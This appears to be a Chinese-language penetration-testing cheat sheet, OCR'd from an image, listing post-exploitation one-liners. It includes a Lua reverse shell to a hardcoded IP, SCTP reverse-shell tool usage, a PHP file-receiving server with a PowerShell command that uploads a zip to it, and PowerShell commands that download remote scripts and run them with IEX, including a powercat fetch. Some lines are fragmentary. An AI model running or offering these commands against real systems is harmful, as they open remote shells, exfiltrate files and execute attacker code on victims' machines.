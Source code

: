 lua 
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

stcp协议反弹shell
```
# https://github.com/srat1999/sctp-shell
# server 
sudo ./scp-shell -s -lp 443 -a 192.168.0.189
# client
./scp-shell -a 192.168.0.189 -lp 56738 -rp 443
```

### 内网文件的传输和下载   
wput 
```
wput dir_name ftp://linuxpig:123456@host.com/
```
wget 
```
wget http://site.com/1.rar -O 1.rar
```
ariac2（需安装） 
```
aria2c -o owncloud.zip https://download.owncloud.org/community/owncloud-9.0.0.tar.bz2
```
powershell
```
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file") 
```

回传文件
```
php起服务： php -S 0.0.0.0:8888
<?php
$file = date("Hism");
file_put_contents($file, file_get_contents("php://input"));

powershell回传：powershell iwr ip:8888/upload.php -method POST -infile C:\xx\xx\xx.zip
```
下载文件
```
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://95.163.202.147:8000/vendor.jsp', 'a.jsp')
```

下载并执行
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://95.163.202.147:8000/ooo.ps1')
('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
```
